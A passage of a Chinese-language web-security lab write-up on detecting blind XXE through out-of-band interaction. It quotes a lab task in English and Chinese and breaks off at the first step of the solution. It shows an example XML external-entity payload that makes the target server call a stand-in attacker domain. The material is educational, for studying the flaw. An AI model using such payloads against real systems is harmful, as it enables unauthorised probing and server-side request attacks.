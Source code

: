 #### 3、使用带外技术

1、通常可以使用与XXE SSRF攻击相同的技术来检测XXE盲注，但会触发与控制的系统的带外网络交互。

```
例如，可按如下方式定义外部：
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
将在XML中的数据值中使用定义的实体
```

此XXE攻击使服务器向指定URL发出后端HTTP请求。攻击者可以监视生成的DNS查找和HTTP请求，从而检测到XXE攻击成功。

### 题目

实验3：带外交互的盲XXE

```
Lab: Blind XXE with out-of-band interaction
PRACTITIONER

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
```

```
信息：

本实验有一个"Check stock"（检查库存）功能，该功能可以解析XML输入，但不显示结果。

可以通过触发与外部域的带外交互来检测隐蔽XXE漏洞。

解决实验：使用外部实体使XML解析器向Burp Collaborator发出DNS查找和HTTP请求
```

### 解答

1、抓包观察
